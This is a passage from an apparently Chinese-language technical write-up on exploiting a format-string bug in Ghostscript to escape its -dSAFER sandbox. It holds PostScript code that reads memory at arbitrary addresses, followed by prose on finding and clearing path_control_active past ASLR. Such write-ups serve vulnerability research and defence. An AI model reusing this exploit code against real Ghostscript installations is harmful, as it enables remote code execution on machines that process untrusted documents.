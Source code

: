 ```
  /PtrHex exch def
  /PtrOct PtrHex str_ptr_to_le_bytes def % address to read from
  /StackIdx exch def % stack idx to use

  /FmtString StackIdx 1 sub (%x) times (__%.) NumBytes 1 string cvs cat (s__) cat cat def

  PtrOct FmtString do_uniprint

  /Data exch (__) search pop pop pop (__) search pop exch pop exch pop def
  % Check if we were able to read all bytes
  Data length NumBytes eq {
    % Yes we did! So return the integer conversion of the bytes
    0 % accumulator
    NumBytes 1 sub -1 0 {
      exch % <i> <accum>
      256 mul exch % <accum*256> <i>
      Data exch get % <accum*256> <Data[i]>
      add % <accum*256 + Data[i]>
    } for
  } {
    % We did not read all bytes, add a null byte and recurse on addr+1
    StackIdx 1 PtrHex ptr_add_offset NumBytes 1 sub read_dereferenced_bytes_at
    256 mul
  } ifelse
} bind def
% <StackIdx> <AddrHex> read_dereferenced_ptr_at <PtrHexStr>
/read_dereferenced_ptr_at {
  % Read 6 bytes
  6 read_dereferenced_bytes_at
  % Convert to hex string and return
  16 12 string cvrs
} bind def
```  
  
  
**开发**  
  
我们的最终利用目标是逃离-dSAFER沙盒，因为这将使我们在运行 Ghostscript 的机器上获得完整的 RCE。-dSAFER启用后，Ghostscript 会将全局上下文结构中的布尔字段 ( path_control_active) 永久设置为 1。在 Postscript 中，通常无法在将其设置为 1 后将其改回。  
  
然而，如果我们能够真正进入内存中的正确位置并将该字段设置为 0，-dSAFER那么只要 Ghostscript 进程运行，所有限制就会立即消失。  
  
因此，我们需要找到的地址path_control_active（由于 ASLR，该地址每次都会发生变化）。该字段是gs_lib_ctx_core_t结构的一部分，该结构的全局实例分配在堆上，但我们不知道具体位置，因为它在堆栈上的任何地方都没有被引用。  
  
gs_lib_ctx_core_t相反，我们可以利用指向结构的指针是 的一部分这一事实gs_lib_ctx_t，而 又是 的一部分gs_memory_t。碰巧的是，包含gs_snprintf调用的函数upd_wrtrtl(upd_p upd, gp_file *out)接收一个具有指向 的指针的gp_file *参数。换句话说，我们只需要从其一致的堆栈位置抓取，然后多次取消引用它即可获得。outgs_memory_tout&out->memory->gs_lib_ctx->core->path_control_active  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tae3hcz9AUibdhK6Vyg8SsyjktGwhDfTTUnvfjQxiazEBuXktelc2O9IKVarx1ETVhj7dLvRsdqU2dfg/640?wx_fmt=png&from=appmsg "")  
  
由于这些字段在其父结构中的偏移量都不为 0，因此我们需要能够在再次取消引用之前向泄漏的（十六进制）指针值添加偏移量。幸运的是，Postscript 在处理 16 进制数字方面非常灵活，因此下面的方法可以解决问题：  
  